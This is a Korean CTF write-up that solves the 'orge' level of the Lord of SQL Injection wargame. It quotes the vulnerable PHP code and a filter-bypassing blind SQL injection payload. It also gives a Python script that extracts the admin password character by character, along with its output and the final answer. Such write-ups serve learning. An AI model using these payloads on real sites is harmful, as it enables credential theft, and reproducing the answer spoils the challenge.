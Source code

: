 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - orge 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `orge` 이다.  

이 전 문제인 `darkelf`와 Blind SQL Injection 이었던 `orc` 문제가 섞인 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------
query : select id from prob_orge where id='guest' and pw=''
-------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

`or`와 `and` 문자를 사용할 수 없어 `or` 대신에 `||`, `and` 대신에 `&&`를 사용해야 한다.  

또한 입력한 `pw`와 디비에 저장된 `pw`의 값이 같아야 하기 때문에 `Blind SQL Injection`으로 문제를 풀어야 한다.  

그런데 첫 번째 쿼리와 두 번째 쿼리가 살짝 다르다.  

```php
$query1 = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"

$query2 = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"
```

첫 번째 쿼리에서는 `id='guest'`로 되어 있고 두 번째 쿼리에서는 `id='admin'`으로 되어 있다.  

그런데 문제를 풀기 위한 조건은 `admin의 정확한 pw`를 알아내야 하는 것이므로, 첫 번째 쿼리를 통해 `admin`의 `pw`를 알아내고, 두 번째 쿼리를 통해 문제를 풀면 된다.  

`admin`의 `pw`를 알아내기 위한 쿼리 스트링은 다음과 같다.  

```
?pw=1' || id='admin' && length(pw)=1#
```

그런데 `&&`와 `#`은 그냥 입력하면 안되고 `URL Encoding`을 해 넘겨주어야 한다.  

즉, 수정하면 다음과 같다.  

```
?pw=1' || id='admin' %26%26 length(pw)=1%23
```

위의 쿼리 스트링을 토대로 `orc` 문제를 참고 해 아래와 같이 python 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/orge_bad2f25db233a7542be75844e314e9f3.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' || id='admin' %26%26 length(pw)=" + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' || id='admin' %26%26 substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

실행 시킨 결과 다음과 같이 pw를 찾을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 7
[+] Found 2 : 7B
[+] Found 3 : 7B7
[+] Found 4 : 7B75
[+] Found 5 : 7B751
[+] Found 6 : 7B751A
[+] Found 7 : 7B751AE
[+] Found 8 : 7B751AEC
[+] Found password :  7B751AEC
[+] End
```

이번에도 역시 `7B751AEC`에서 알파벳을 소문자로 바꿔주어야 문제가 풀렸다.  

```
?pw=7b751aec
```

위와 같이 입력하면 문제를 풀 수 있다.  

```php
---------------------------------------------------------------------------------------
query : select id from prob_orge where id='guest' and pw='7b751aec'
---------------------------------------------------------------------------------------

ORGE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

`ORGE Clear!!`
